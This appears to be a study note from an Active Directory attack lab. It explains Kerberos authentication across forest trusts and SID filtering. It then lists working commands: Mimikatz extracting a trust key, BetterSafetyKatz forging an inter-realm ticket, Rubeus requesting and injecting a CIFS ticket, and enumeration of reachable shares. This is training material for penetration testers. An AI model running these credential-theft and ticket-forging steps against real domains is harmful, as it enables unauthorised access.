 Kerberos working across forest is same as working between two domains for example a client wants to access a service from dollarcorp.moneycorp.local to eurocorp.local, if there is external trust configured first the client will request for TGT from their own dc receive TGT, present the TGT and request for ST for service in another forest here the dc will see that the service resides in another forest via the SPN and present the client with inter realm TGT which is encrypted using trust key whose copy is present in both the DC(dollarcorp's and eurocorp's) the client will send the inter realm TGT to dc of eurpcorp and request to access a service then the dc of eurpcorp will provide him/her ST for that particular service and the client will present the ST to that service and gain access. Here if it was between two domains inside the same forest and if we have DA access on one domain we could extract the trust key and forge an inter realm TGT with sid history as enterprise administrator and gain access to dc or computers in another domain inside same forest as enterprise administrator but in case of across forest there exist a security mechanism called sid filtering which prevents from doing so but we can access only explicitly allowed resources like cifs, file service, database, etc. for example

- We extract trust key rc4_hmac_nt from [In] dollarcorp.moneycorp.local -> eurocorp.local
```
Invoke-Mimikatz-Command '"lsadump::trust /patch"'
```
- Forge inter realm tgt using bettersafetykatz
```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit" 
```
- Using rubeus we reqest ST for CIFS of eurocorp.local and present the ST to CIFS service
```
Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt
```
- Now here we will not be able to access C$ although we have forged the TGT and we will only be allowed to access the resource with explicit permission example
```
ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

# How do we find such explicitly allowed resources?
- Enumerate how many machines are there in eurocorp.local
- REquest ST for CIFS for every machine like above 
- Run net view against each machine and check if we can list shares ```net view \\eurocorp-dc.eurocorp.local\``` then ```dir \\eurocorp-dc.eurocorp.local\accessible-resource\``` then ```type \\eurocorp-dc.eurocorp.local\accessible-resource\flag.txt```